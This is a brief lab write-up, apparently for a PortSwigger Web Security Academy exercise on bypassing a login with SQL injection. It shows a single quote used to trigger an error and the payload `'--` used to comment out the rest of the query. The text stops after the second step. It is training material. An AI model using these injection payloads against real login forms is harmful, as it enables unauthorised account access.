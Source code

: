 # [SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

Step - 1
---
```
'
```
Error because Single Quotes

Step - 2
---
```
'--
```
